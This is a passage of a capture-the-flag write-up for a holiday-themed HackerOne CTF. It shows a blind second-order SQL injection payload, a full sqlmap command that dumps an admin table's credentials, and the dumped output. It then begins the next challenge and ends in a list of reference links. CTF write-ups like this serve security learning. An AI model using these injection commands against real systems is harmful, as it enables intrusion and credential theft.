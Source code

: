 sqlmap resumed the following injection point(s) from stored session:
---
Parameter: name (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: name=admin' AND 2619=2619 AND 'gAdb'='gAdb
---
back-end DBMS: MySQL >= 8.0.0
Database: quiz
[2 tables]
+-------+
| admin |
| quiz  |
+-------+
```
` --no-cast` option is used as suggested by sqlmap for good results.
So, last step is to get contents of admin table,
```
sqlmap -r first.req --second-req second.req --force-ssl --not-string="There is 0" --no-cast --batch --dbms=mysql -D quiz -T admin --dump username,password --time-sec 5

sqlmap resumed the following injection point(s) from stored session:
---
Parameter: name (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: name=admin' AND 2619=2619 AND 'gAdb'='gAdb
---
back-end DBMS: MySQL >= 8.0.0
Database: quiz
Table: admin
[1 entry]
+----+-------------------+----------+
| id | password          | username |
+----+-------------------+----------+
| 1  | S3creT_p4ssw0rd-$ | admin    |
+----+-------------------+----------+
```
I also wrote a tamper script {F1132485} for sqlmap to perform threaded requests which is attached, thanks to [this][19] blog post.
[19]: https://pentest.blog/exploiting-second-order-sqli-flaws-by-using-burp-custom-sqlmap-tamper/   "this"
I logged in to [admin][20] and got the flag.
[20]: https://hackyholidays.h1ctf.com/evil-quiz/admin       "admin"


Challenge 10: Signup Manager
------------------------------
Description: You've made it this far! The grinch is recruiting for his army to ruin the holidays but they're very picky on who they let in!
On browsing [https://hackyholidays.h1ctf.com/signup-manager/][21], I got a page with bunch of input fields. First thing I checked is source code of page by pressing `ctrl+U` and got a interesting comment.
[21]: https://hackyholidays.h1ctf.com/signup-manager/         "https://hackyholidays.h1ctf.com/signup-manager/"
`<!-- See README.md for assistance -->`
So I browsed [https://hackyholidays.h1ctf.com/signup-manager/README.md][22] and got the file with this contents.
[22]: https://hackyholidays.h1ctf.com/signup-manager/README.md   "https://hackyholidays.h1ctf.com/signup-manager/README.md"
```

[1]: https://hackerone.com/h1-ctf         "https://hackerone.com/h1-ctf"
[2]: https://hackyholidays.h1ctf.com/robots.txt       "https://hackyholidays.h1ctf.com/robots.txt"
[3]: https://hackyholidays.h1ctf.com/s3cr3t-ar3a "https://hackyholidays.h1ctf.com/s3cr3t-ar3a"
[5]: https://hackyholidays.h1ctf.com/swag-shop     "https://hackyholidays.h1ctf.com/swag-shop"
[6]: https://hackyholidays.h1ctf.com/swag-shop/api/sessions             "https://hackyholidays.h1ctf.com/swag-shop/api/sessions"
[7]: https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043    "/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043"
[8]: https://hackyholidays.h1ctf.com/secure-login          "https://hackyholidays.h1ctf.com/secure-login"
[8]: https://hackyholidays.h1ctf.com/my-diary/         "https://hackyholidays.h1ctf.com/my-diary/"
[9]: https://hackyholidays.h1ctf.com/my-diary/?template=index.php       "index.php"
[10]: https://hackyholidays.h1ctf.com/my-diary/?template=secretasecretaadmin.phpdmin.phpdmin.php    "https://hackyholidays.h1ctf.com/my-diary/?template=secretasecretaadmin.phpdmin.phpdmin.php"
[11]: https://hackyholidays.h1ctf.com/hate-mail-generator   "https://hackyholidays.h1ctf.com/hate-mail-generator"
[12]: https://hackyholidays.h1ctf.com/hate-mail-generator/templates/      "https://hackyholidays.h1ctf.com/hate-mail-generator/templates/"
[14]: https://github.com/Grinch-Networks/forum                 "https://github.com/Grinch-Networks/forum"
[13]: https://hackyholidays.h1ctf.com/forum              "https://hackyholidays.h1ctf.com/forum"
[15]:  https://hackyholidays.h1ctf.com/forum/phpmyadmin    "phpmyadmin"
[16]: https://hashes.org/search.php       "hashes.org"
[17]: https://hackyholidays.h1ctf.com/forum/login          "login"
[18]: https://hackyholidays.h1ctf.com/evil-quiz           "https://hackyholidays.h1ctf.com/evil-quiz"
[23]: https://hackyholidays.h1ctf.com/signup-manager/signupmanager.zip     "https://hackyholidays.h1ctf.com/signup-manager/signupmanager.zip" 
[24]: https://www.php.net/manual/en/function.is-numeric.php        "here"
[25]: https://www.php.net/manual/en/language.types.float.php      "number"
[26]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59            "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59"
[27]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api       "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api"
[28]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k    "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k"
[29]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/uploads/13d74554c30e1069714a5a9edda8c94d.jpg "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/uploads/13d74554c30e1069714a5a9edda8c94d.jpg"
[30]: https://captnemo.in/blog/2012/06/09/nested-sql-injections/   "Here"
[31]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api      "api"
[32]: https://github.blog/2015-11-03-like-injection/      "like"
[32]: https://hackyholidays.h1ctf.com/attack-box/login     "attack-box"
[33]: https://en.wikipedia.org/wiki/DNS_rebinding   "DNS-rebinding"
[34]: https://github.com/taviso/rbndr    "https://github.com/taviso/rbndr"